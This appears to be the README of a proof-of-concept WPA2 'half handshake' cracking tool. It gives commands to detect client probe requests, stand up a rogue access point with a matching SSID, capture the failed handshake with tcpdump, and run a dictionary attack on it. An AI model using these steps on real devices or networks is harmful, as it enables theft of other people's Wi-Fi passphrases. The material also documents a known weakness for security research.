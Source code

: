 # WPA2-HalfHandshake-Crack
Conventional WPA2 attacks work by listening for a handshake between client and Access Point. This full fourway handshake is then used in a dictonary attack. This tool is a Proof of Concept to show it is not necessary to have the Access Point present. A person can simply listen for WPA2 probes from any client withen range, and then throw up an Access Point with that SSID. Though the authentication will fail, there is enough information in the failed handshake to run a dictionary attack against the failed handshake. 

## Install

```
  $ sudo python setup.py install
```

## Sample use

```
  $ python halfHandshake.py -r sampleHalfHandshake.cap -m 48d224f0d128 -s "no place like 127.0.0.1"
```

* **-r** Where to read input pcap file with half handshake (works with full handshakes too)
* **-m** AP mac address (From the 'fake' access point that was used during the capture)
* **-s** AP SSID
* **-d** (optional) Where to read dictionary from

## Capturing half handshakes

#### To listen for device probes the aircrack suite can be used as follows

```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
```

  You should begin to see device probes with BSSID set as (not associated) appearing at the bottom. If WPA2 SSIDs pop up for these probes, these devices can be targeted

#### Setup a WPA2 wifi network with an SSID the same as the desired device probe. The passphrase can be anything

  In ubuntu this can be done here

http://ubuntuhandbook.org/index.php/2014/09/3-ways-create-wifi-hotspot-ubuntu/

#### Capture traffic on this interface.

  In linux this can be achived with TCPdump
```
sudo tcpdump -i wlan0 -s 65535 -w file.cap
```


